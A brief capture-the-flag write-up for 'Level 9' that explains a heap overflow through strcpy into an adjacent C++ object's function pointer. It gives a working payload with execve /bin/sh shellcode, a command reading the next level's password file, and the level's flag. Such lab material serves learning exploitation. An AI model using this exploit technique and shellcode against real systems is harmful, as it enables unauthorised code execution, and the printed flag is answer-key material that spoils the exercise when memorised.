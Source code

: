 # Level 9

Here we use the behaviour of OOP creating objects. The new operator working like some sort of malloc will allocate some place in the memory which will be called later as a function since the first thing in the object is a function pointer. We can easily overflow with the strcpy in the setAnotation method in the first object into the second object to put a shellcode in it which will be executed then.

```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80" + "a" * 81 + "\x0c\xa0\x04\x08"')
cat /home/user/bonus0/.pass
```

**Flag:** `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`
